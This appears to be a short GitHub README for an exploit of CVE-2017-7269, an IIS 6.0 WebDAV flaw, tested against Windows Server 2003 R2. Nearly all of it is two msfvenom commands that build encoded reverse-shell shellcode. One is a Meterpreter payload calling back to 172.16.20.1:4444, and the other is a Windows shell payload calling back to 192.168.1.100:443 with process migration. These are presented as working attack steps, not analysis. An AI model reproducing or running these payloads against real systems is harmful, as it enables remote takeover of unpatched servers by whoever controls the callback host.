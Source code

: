 # CVE-2017-7269 REC

`Build .bin Payload`

`msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode.bin`

## Test on 

  `Windows Server 2003 R2`
    
    SP1
    SP2
    SP3 English

## 脚本填充Shellcode生成

    msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.100 lport=443 PrependMigrate=True PrependMigrateProc="calc.exe" EXITFUNC="process" -b "\x00" -e x86/unicode_mixed BufferRegister=ESI -f raw
